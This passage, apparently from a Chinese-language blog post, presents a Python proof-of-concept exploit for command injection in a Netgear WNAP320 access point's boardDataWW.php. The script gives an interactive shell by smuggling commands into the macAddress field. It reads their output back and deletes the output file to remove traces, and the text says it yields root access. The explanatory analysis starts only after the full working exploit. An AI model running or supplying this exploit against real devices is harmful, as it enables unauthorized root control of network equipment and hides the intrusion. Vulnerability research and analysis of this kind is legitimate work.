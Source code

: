     if(len(sys.argv) != 2):
            print('Must specify the IP parameter')
            print("eg: python3 wnap320_v2_0_3.py <IP>")
            sys.exit(0)
    
    host = sys.argv[1]
    port = 80
    
    cmd = ''
    
    while(True):
            cmd = input('Shell_CMD$ ')
            #injecting system command part writing the command output to a output file
            data = {
                    'macAddress' : '112233445566;' + cmd + ' > ./output #',
                    'reginfo' : '0',
                    'writeData' : 'Submit'
            }
    
            url = 'http://' + host + '/boardDataWW.php'
            response = requests.post(url, data=data)
    
            if(response.ok):
                    #read the command output result
                    url = 'http://' + host + '/output'
                    cmdOutput = requests.get(url)
                    print(cmdOutput.text)
    
                    #remove trace
                    cmd = 'rm ./output'
                    data = {
                            'macAddress' : '112233445566;' + cmd + ' #',
                            'reginfo' : '0',
                            'writeData' : 'Submit'
                    }
                    url = 'http://' + host + '/boardDataWW.php'
                    response = requests.post(url, data=data)
            else:
                    print('[!] No response from the server.')
    

运行结果如下：(可以成功获取到shell并且是root权限的)

![image-20220630163225356](https://img2022.cnblogs.com/blog/2080041/202206/2080041-20220630163225277-821270123.png)

接下来详细的分析下这个POC。

### 代码分析

首先看到这一段，这里利用input接受用户输入的命令，然后这个data是一个json数据，正常的话应该是`macAddress:MAC地址`、`reginfo:0`、`writeData:submit`，但是由于他存在命令注入的漏洞，所以我们可以把命令注入到`macAddress`的值当中造成任意命令执行。

    cmd = input('Shell_CMD$ ')
    #injecting system command part writing the command output to a output file
    data = {
        'macAddress' : '112233445566;' + cmd + ' > ./output #',
        'reginfo' : '0',
        'writeData' : 'Submit'
    }
    